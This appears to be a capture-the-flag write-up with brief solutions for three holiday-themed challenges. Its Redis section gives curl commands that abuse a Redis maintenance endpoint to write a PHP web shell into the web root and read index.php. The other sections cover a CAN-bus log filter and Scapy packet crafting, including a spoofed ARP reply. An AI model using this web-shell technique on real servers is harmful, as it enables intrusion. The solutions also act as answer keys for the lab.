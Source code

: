 ### Redis
* there can be interacted with a redis-db via curl and a maintenance-page.
* the goal is to access/read/download index.php
* proceeded as in https://book.hacktricks.xyz/pentesting/6379-pentesting-redis described

```bash
  curl http://localhost/maintenance.php?cmd=config,set,dir,'/var/www/html'

  curl http://localhost/maintenance.php?cmd=CONFIG,SET,dbfilename,sh.php    

  # check if rce works   curl http://localhost/maintenance.php?cmd=SET,TEST,<?php phpinfo(); ?>  
  # payload hast to be url-encoded
  curl http://localhost/maintenance.php?cmd=SET,TEST,%3C%3Fphp%20phpinfo%28%29%3B%20%3F%3E%20      
      
  # payload to access index.php <?php echo file_get_contents( "index.php" ); ?>  
  curl http://localhost/maintenance.php?cmd=SET,TEST,%3C%3Fphp%20echo%20file_get_contents%28%20%22index.php%22%20%29%3B%20%3F%3E%20

  curl http://localhost/maintenance.php?cmd=SAVE

```

### Can-Bus
* `cat candump.log | grep -v 244`to filter to the relevant lines
* `./runtoanswer 122520`
* baamm, that's it


### Scappy Prepper
* task.submit('start')                       
* task.submit(send)                          
* task.submit(sniff)                         
* task.submit(1)                             
* task.submit(rdpcap)                        
* task.submit(2)                             
* task.submit(UDP_PACKETS[0])                
* task.submit(TCP_PACKETS[1][TCP])           
* UDP_PACKETS[0][IP].src = "127.0.0.1"       
* task.submit(UDP_PACKETS[0])                
* TCP_PACKETS[3][Raw].load                   
* task.submit('echo')                        
* ICMP_PACKETS[1][ICMP].chksum               
* task.submit(19524)                         
* task.submit(3)                             
* pkt = IP(dst='127.127.127.127')/UDP(dport=5000)
* task.submit(pkt)                           
* pkt = IP(dst='127.2.3.4')/UDP(dport=53)/DNS(qd=DNSQR(qname="elveslove.santa"))
* task.submit(pkt)   
* ARP_PACKETS[1][Ether].src     -> Get the unknown mac-address                
* ARP_PACKETS[1][ARP].op = 2                 
* ARP_PACKETS[1][ARP].hwsrc = '00:13:46:0b:22:ba'
* ARP_PACKETS[1][ARP].hwdst = '00:16:ce:6e:8b:24'
* task.submit(ARP_PACKETS)    

